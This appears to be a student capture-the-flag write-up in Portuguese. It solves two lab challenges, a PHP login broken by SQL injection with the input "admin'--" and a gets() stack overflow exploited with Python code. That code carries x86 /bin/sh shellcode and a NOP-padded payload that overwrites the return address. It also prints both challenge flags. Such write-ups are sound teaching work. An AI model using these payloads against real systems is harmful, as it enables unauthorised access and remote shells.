 # CTF 4 - Semana 8

## Primeira parte

Inicialmente exploramos os ficheiros disponibilizados na plataforma CTF que são os mesmos que estão a ser executados no servidor na porta 5003. <br>
Verificamos que a base de dados usada é SQLite3 e quando o username é 'admin' o conteúdo do ficheiro `flag.txt` é mostrado na página web. Na parte do login a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```php
$username = $_POST['username'];
$password = $_POST['password'];             
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Ao usarmos o input "admin'--" através de SQL Injection garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT username FROM user WHERE username = 'admin'-- AND password = $password
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{ac3aa6c08d2bd43bc74361ad039139fd}`.

![CTF 4 1](../Images/ctf4task1.png)

## Segunda parte

Com o comando **checksec** verificamos que `program` (main.c compilado) não tem o binário randomizado nem existem proteções do endereço de retorno usando canários. 

![CTF 4 2 a](../Images/ctf4task2a.png)

Também tivemos acesso ao código fonte que está a ser executados no servidor na porta 4001:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

A função `gets` é insegura pois copia para `buffer` todo o input de stdin até atingir um `\0`. Assim, uma vez que a stack tem permissões de execução e os seus endereços não estão randomizados, é possível fazer um buffer overflow para controlar o endereço de retorno da função main.

Para construir o exploit usamos a linguagem Python e o mesmo shell code de CTFs anteriores que permitia lançar uma bash no terminal. Além disso, foi útil utilizar uma expressão regular para extrair o valor do endereço de buffer.

```python
ADDRESS_REGEX = "0x(.+).\n"
SHELL_CODE = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
  "\x0b\xcd\x80" 
).encode('latin-1')
```

O input terá exatamente 112 bytes: 100 bytes para atingir o máximo espaço de memória alocada em buffer e 12 bytes para dar overflow a 3 endereços:
- O endereço da variável passada à função printf;
- O frame-pointer de main;
- O endereço de retorno da main;

O exploit terá a seguinte estrutura:

- Os primeiros 23 bytes contêm o shell code;
- Os últimos 4 bytes contêm o endereço de retorno malicioso, que irá corresponder ao endereço do início do buffer;
- Os restantes bytes intermédios terão NOP (*no operation*). 

```python
content = ctf_server.recvuntil(b'input:').decode()
buffer_address = bytearray.fromhex(re.search(ADDRESS_REGEX, content).group(1))
buffer_address.reverse()

exploit = bytearray(NOP for _ in range(BUFFER_SIZE)) 
exploit[: len(SHELL_CODE)] = SHELL_CODE
exploit[BUFFER_SIZE - len(buffer_address):] = buffer_address
```

Isto irá reescrever o endereço de retorno da função main, que apontará agora para o shell code. Note-se que este processo também reescreve o frame pointer de main e o endereço do argumento de printf, que estão na stack entre o endereço de retorno e o buffer. No entanto, como main não chega a retornar, a manutenção dos valores originais torna-se irrelevante.

Tal como esperado, ao executar o código (disponível [aqui](../CTF/Exploits/Semana08.py)), conseguimos abrir uma bash no servidor:

![CTF 4 2 b](../Images/ctf4task2b.png)

Conseguimos assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{a4421b76e3dfc304875754a99497e1f1}`.
